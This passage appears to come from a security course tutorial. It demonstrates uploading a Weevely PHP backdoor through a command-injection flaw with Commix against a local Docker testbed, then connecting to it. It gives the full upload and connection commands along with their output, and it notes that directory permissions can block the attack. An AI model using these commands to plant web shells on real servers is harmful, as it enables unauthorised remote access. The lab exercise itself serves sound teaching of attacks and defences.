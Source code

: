 ```systemctl start dockerdocker run --rm -it -d -p 3000:80 cybrcom/commix-testbed```
```cat weevely.php```

As you can see, the code is obfuscated through encryption, but this code is what creates our backdoor. The creators of Weevely call this the backdoor agent, and this is the file that we want to upload to the target web folder. Once it’s uploaded to the target web folder, we will have the web server execute that PHP code which is what gives us remote access. So, the agent has to be reachable from a URL you have access to, otherwise this won’t work.

### Uploading our Weevely backdoor
In order to upload it, we have to go back to using Commix. But before I do that, I’m going to cheat a little bit because our upload attempt will actually fail at first, and I want to show you why. Let’s jump inside of the container:

```docker ps```

Grab the container ID and use it for this command:

```docker exec -it <id> /bin/bash```

Now let’s pull up the apache error logs to monitor what happens.

```tail -f /var/log/apache2/error.log```

Now let’s go back to Commix and run our attack:

```python commix.py --url="http://127.0.0.1:3000/commix-testbed/scenarios/regular/GET/classic.php?addr=INJECT_HERE" --file-upload="/home/kali/Documents/weevely.php" --file-dest="/var/www/example.com/public_html/commix-testbed/scenarios/regular/GET/"```

With this command, we are uploading the Weevely file to the target destination. 

It will ask if we want to enable an HTTP server to which we will respond Y. Then we get this warning:

```[warning] It seems that you don't have permissions to write the '/var/www/example.com/public_html/commix-testbed/scenarios/regular/GET/weevely.php' file.```

And the file did not write because our user running the application does not have proper permissions. This is because of how permissions have been set up on the server/container.

If we exit out of the error logs, and we run an ```ls -l```, we will see that the directory is owned by root. While I would not recommend having root own the web application directory, in this case it prevented us from uploading files via the command injection vulnerability, so that is something to keep in mind when we explore defenses later in the course! Permissions can play a role in preventing compromises, but they also should not be the only defense.

Let’s change these permissions so that we can demonstrate the file upload:

```chown -R www-data:www-data commix-testbed```

Now, let’s re-run our attack.

```python commix.py --url="http://127.0.0.1:3000/commix-testbed/scenarios/regular/GET/classic.php?addr=INJECT_HERE" --file-upload="/home/kali/Documents/weevely.php" --file-dest="/var/www/example.com/public_html/commix-testbed/scenarios/regular/GET/"```

And there you have it!

```[info] The /var/www/example.com/public_html/commix-testbed/scenarios/regular/GET/weevely.php file was uploaded successfully!```

We’ve uploaded our backdoor agent to the server, and we can verify with the Pseudo-terminal:

```ls weevely.php```

### Exploiting the Weevely backdoor
After uploading the backdoor agent, we can execute the script from Weevely back on our system.

```weevely http://127.0.0.1:3000//commix-testbed/scenarios/regular/GET/weevely.php commix```

As a reminder, the commix at the end is the password we used to encrypt this file.
```